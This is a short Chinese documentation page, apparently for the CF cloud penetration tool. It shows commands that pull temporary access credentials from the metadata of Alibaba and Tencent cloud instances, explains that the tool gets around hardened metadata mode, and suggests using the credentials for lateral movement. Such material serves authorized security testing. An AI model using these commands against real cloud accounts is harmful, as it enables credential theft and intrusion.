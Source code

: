 ```yaml
---
title: 一键获得临时访问凭证
---
```


## 一键获得阿里云的临时访问凭证

使用 `-m` 命令一键获得临时访问凭证

```bash
cf alibaba ecs exec -m
```

指定单个实例获取临时访问凭证

```bash
cf alibaba ecs exec -m -i i-abcdefghijklmn
```

## 一键获得腾讯云的临时访问凭证

### 云服务器

```bash
cf tencent cvm exec -m
```

### 轻量应用服务器

```bash
cf tencent lh exec -m
```

::: tip Tips

* 当获得临时访问凭证后，可以将这个临时访问凭证配置到 CF 中，然后继续进行信息收集、内网横向。

:::

> 由于临时访问凭证是在元数据里的，所以存在因元数据处于加固模式而导致临时访问凭证无法获取的可能性，因此当 CF 检测到目标元数据处于加固模式时，会自动获取访问元数据的 Token，从而利用该 Token 获得临时访问凭证，简单理解的话，就是 CF 会自动绕过目标的元数据加固模式。

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年9月7日"
    }
  }
</script>